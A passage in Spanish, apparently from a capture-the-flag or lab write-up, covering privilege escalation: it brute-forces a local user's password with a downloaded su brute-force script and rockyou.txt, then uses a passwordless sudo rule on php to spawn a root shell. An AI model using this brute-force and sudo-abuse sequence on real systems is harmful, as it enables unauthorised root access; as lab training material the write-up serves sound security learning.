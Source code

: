 # ESCALADA PRIVILEGIOS

No encuentro manera de escalar privilegios, optamos por usar fuerza bruta.
Nos descargamos : https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.py y lo compartimos con **scp**.

```bash
manchi@d6bfacbad12d:~$ ./Linux-Su-Force.sh seller rockyou.txt 
Contraseña encontrada para el usuario seller: qwerty

```

**Usuario -> seller**
**Contra -> qwerty**

ESTAMOS COMO SELLER.

Vemos si el usuario tiene permisos SUDO:
   ```bash
seller@d6bfacbad12d:~$ sudo -l
Matching Defaults entries for seller on d6bfacbad12d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User seller may run the following commands on d6bfacbad12d:
    (ALL) NOPASSWD: /usr/bin/php

```

Vemos **php** con permisos SUDO:

   ```bash
seller@d6bfacbad12d:~$ sudo php -r "system('/bin/bash');"
root@d6bfacbad12d:/home/seller# whoami
root
root@d6bfacbad12d:/home/seller# 
```

**YA ESTAMOS COMO ROOT.